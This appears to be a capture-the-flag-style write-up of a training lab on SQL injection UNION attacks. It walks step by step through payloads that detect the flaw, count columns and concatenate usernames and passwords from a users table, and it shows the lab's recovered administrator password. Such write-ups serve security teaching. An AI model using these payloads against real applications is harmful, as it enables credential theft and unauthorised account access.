





# Lab: SQL injection UNION attack, retrieving multiple values in a single column

## Lab Description
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## Step 1 — Intercept the Base Request
Navigate to the application, select a category filter (e.g., `Gifts`), capture the request in Burp Suite, and send it to Repeater.

### Example Base Request
GET /filter?category=Gifts HTTP/1.1  
Host: 0ae5009b041214de80705d8d00120030.web-security-academy.net

### Screenshots

## Step 2 — Verify SQL Injection & Comment Format
To confirm that input is executed dynamically, a single quote (`'`) was appended to disrupt the SQL query, which returned a database error. Using the SQL comment indicator (`--`) successfully repairs the query syntax.

### Results
* `Gifts'` -> **500 Internal Server Error** (SQL syntax broken).
* `Gifts'--` -> **200 OK** (Query execution restored).

### Screenshots

## Step 3 — Determine Column Count via NULL Values
By systematically appending `NULL` values to the injected `UNION SELECT` statement, the exact number of columns returned by the original query was determined.

### Results
* `Gifts'+UNION+SELECT+NULL--` -> **500 Internal Server Error**
* `Gifts'+UNION+SELECT+NULL,NULL--` -> **200 OK** (Confirms the query returns exactly **2 columns**).

### Screenshots

## Step 4 — Verify Column Data Type Compatibility
To determine which of the two columns can hold text/string data, a dummy string value (`'a'`) was injected into each column position individually.

### Results
* `Gifts'+UNION+SELECT+'a',NULL--` -> Tested for Column 1 compatibility.
* `Gifts'+UNION+SELECT+NULL,'a'--` -> Tested for Column 2 compatibility.
* **Finding:** Confirmed which column accepts string data and reflects back in the HTML response.

### Screenshots

## Step 5 — Data Exfiltration via String Concatenation
Since only the second column supports string data, both the `username` and `password` values were retrieved simultaneously within a single column using the string concatenation operator (`||`). A tilde (`~`) character was used as a delimiter to clearly separate credentials.

### Exfiltration Payload
`Gifts'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`

### Compromised Credentials
* **Username:** `administrator`
* **Password:** `82wetptgho9ozvoovdtr`

### Screenshots

## Step 6 — Verification (Lab Solved)
By submitting the recovered `administrator` credentials (`administrator:82wetptgho9ozvoovdtr`) at the `/login` endpoint, a high-privilege session was successfully authenticated, satisfying the objective and completing the lab.

### Screenshots
